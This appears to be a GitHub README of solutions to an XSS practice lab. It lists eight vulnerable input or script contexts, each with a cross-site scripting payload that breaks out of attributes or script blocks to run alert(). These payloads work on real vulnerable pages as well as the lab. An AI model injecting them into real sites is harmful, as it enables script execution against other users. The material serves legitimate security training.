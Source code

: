 # XSS-Practice-Lab



Lab Link : http://leettime.net/xsslab1/chalg1.php

Author : Sheikh Rishad

<XSS Practice Lab/>


Challenge_1:

<input type="text" name="name"></input>

payload :   <script>alert(1)</script>


Challenge_2:

<input type="text" name="name" value=hack></input>

payload :  ><script>alert(document.URL)</script>


Challenge_3:

<input type="text" name="name" value="hack"></input>

payload :  "><script>alert(document.URL)</script>


Challenge_4:

<input type="text" name="name" value='hack'></input>

payload :   '><script>alert(document.URL)</script>


Challenge_5:

<center><script>var search_str="hack";</script>

payload :   </script><script>alert(document.URL)</script>


Challenge_6:

<center><script>var search_str='hack';</script>

payload : </script><script>alert(document.URL)</script>


Challenge_7:

<input type="text" name="name" value='<scriptalert("hack")</script'></input>

payload :   'onmouseover='alert(document.URL);


Challenge_8:

<input type="text" name="name" value='&gt;&lt;script&gt;alert(1)&lt;/script&gt;'></input>

payload :   "onmouseover="alert(document.URL);
